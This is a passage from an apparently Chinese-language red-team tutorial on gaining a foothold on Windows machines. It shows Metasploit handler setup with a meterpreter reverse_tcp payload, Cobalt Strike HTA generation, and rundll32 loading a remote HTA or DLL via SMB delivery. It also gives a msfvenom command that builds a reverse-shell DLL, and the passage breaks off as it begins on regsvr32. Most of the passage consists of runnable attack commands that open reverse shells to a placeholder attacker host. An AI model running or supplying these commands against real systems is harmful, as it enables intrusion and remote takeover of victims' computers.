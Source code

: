 这里 handler 相当于一键设置 exploit/multi/handler 和 Payload。

```plaintext
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Host>
set lport <Port>
exploit -j
```

3.Cobalt Strike HTA 上线

Cobalt Strike 也可以生成 hta 文件，在菜单 Attacks -> HTML Application 生成。

#### 2.1.3 Rundll32

Rundll32 用于运行 32 位 DLL 文件，说白了就是能执行 dll 中代码。

可以执行 .hta 上线。

```plaintext
rundll32.exe url.dll,OpenURL attack.hta
```

或者是通过 MSF SMB Delivery 上线。

设置共享 dll 服务监听 IP 和端口，默认监听 0.0.0.0:445

```plaintext
use exploit/windows/smb/smb_delivery
```

启动完成将给出 .dll 文件地址。

```plaintext
rundll32.exe \\Host\test.dll,0
```

默认共享不方便使用，可以找到 MSF 生成的 .dll 复制下来用 http 服务托管加载。

```plaintext
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f dll > attack.dll
```

msf 使用指定 Payload 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

客户端加载上线。

```plaintext
rundll32 shell32.dll,Control_RunDLL attack.dll
```

#### 2.1.4 Regsvr32

Regsvr32 用于注册 .dll 文件为组件。

存放在 %systemroot%\\System32\\regsvr32.exe。

